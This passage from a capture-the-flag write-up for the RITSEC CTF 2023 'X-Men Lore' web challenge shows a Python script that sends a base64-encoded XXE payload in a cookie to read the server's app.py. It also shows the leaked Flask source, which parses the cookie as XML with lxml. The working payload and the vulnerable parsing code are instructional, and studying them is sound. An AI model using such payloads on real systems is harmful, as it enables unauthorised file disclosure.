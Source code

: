 > _Gunicorn_ is a pure Python WSGI server with simple configuration and multiple worker implementations for performance tuning.

That being said, the back-end is using Python. Which means there's only 2 back-end web framework in Python: **Flask and Django**.

Usually the main application file is called `app.py`.

**After some testing, I found the source code is in `/home/user/app.py`:**
```py
#!/usr/bin/env python3

from base64 import b64encode
import requests

def main():
    payload = b'''<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY xxe SYSTEM "file:///home/user/app.py"> ]><input><xmen>&xxe;</xmen></input>'''
    base64Encoded = b64encode(payload).decode()
    cookie = {
        'xmen': base64Encoded
    }
    URL = 'https://xmen-lore-web.challenges.ctf.ritsec.club/xmen'

    xmenResult = requests.get(URL, cookies=cookie)
    print(xmenResult.text)

if __name__ == '__main__':
    main()
```

```shell
┌[siunam♥earth]-(~/ctf/RITSEC-CTF-2023/Web/X-Men-Lore)-[2023.04.01|14:52:39(HKT)]
└> python3 encode_xml.py
<!DOCTYPE html>
<head>
  <title>X-Men Lore</title>
  <link rel="stylesheet" href="/static/style.css">
</head>
<a href="/"><button>Home</button></a>
<body>
  
    
      <h1>from flask import Flask, render_template, request, redirect, url_for
import lxml.etree as ET
from base64 import b64decode
app = Flask(__name__)

@app.route(&#34;/&#34;)
def index():
  return render_template(&#34;index.html&#34;)

@app.route(&#34;/xmen&#34;)
def xmen():
  cookie = request.cookies.get(&#34;xmen&#34;)
  try:
    b64decode(cookie)
    data = ET.fromstring(b64decode(cookie))
  except:
    return redirect(url_for(&#34;index&#34;))
  return render_template(&#34;xmen.html&#34;, data=data)
</h1>
      <img src="/static/from flask import Flask, render_template, request, redirect, url_for
import lxml.etree as ET
from base64 import b64decode
app = Flask(__name__)
```